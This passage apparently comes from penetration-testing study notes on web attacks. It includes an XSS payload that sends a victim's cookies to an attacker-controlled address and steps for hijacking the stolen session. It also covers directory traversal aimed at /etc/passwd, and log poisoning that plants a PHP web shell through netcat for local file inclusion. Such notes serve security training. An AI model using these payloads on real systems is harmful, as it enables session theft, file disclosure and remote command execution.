    ```html
   <script>new Image().src="http://192.168.119.216:8000/cool.jpg?output="+document.cookie;</script>
   ```

3. Use the [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) extension in Firefox to replace the Session ID with the stolen one from the netcat.

#### More Ideas

- Exploit Java/browser vulnerabilities
- Keystroke loggers
- Phishing attacks
- Port scanning
- Content scrapers/skimmers
- https://pentest-tools.com/blog/xss-attacks-practical-scenarios/

### Directory/Path Traversal

1. Look for URL query strings or form bodies for values that appear as file references, particularly file extensions.
2. Attempt to modify those to reference files that should be readable by any user on the system (`/etc/password`, `c:\boot.ini`, etc)
3. You can use parent directory indicators `../` or `..\` to traverse unknown paths to take them back to the root folder, then build your path from there (ex:  `../../../../../etc/passwd`)

Some signs of directory traversable URL's

```html
# Shows the extension of a file, indicating loading a resource from another location.
http://192.168.216.10/menu.php?file=current_menu.php
```

### File Inclusion Vulnerabilities

#### Local File Inclusion

We must find a way to load the payload onto the server.  Once loaded, the payload is executed using Directory/Path Traversal to load the code into the webpage.

##### Contaminating Log Files

Most application servers log all URL's requested.  We can load code into the log files and then execute that code by reference the log files via Directory Traversal.

1. Use netcat to connect to the webserver and enter the PHP code which will translate as a get request, which will create an entry in the log with the code.  It will result in an error due to the request not being valid, but it will be stored to the logs.

   ```bash
   # Connect to webserver
   netcat -nv 192.168.216.10 80
   # Send the code, which allows you to specify any command with the `cmd` variable.
   <?php echo shell_exec($_GET['cmd']); ?>
   ```

2. Use the Log file in the LFI payload
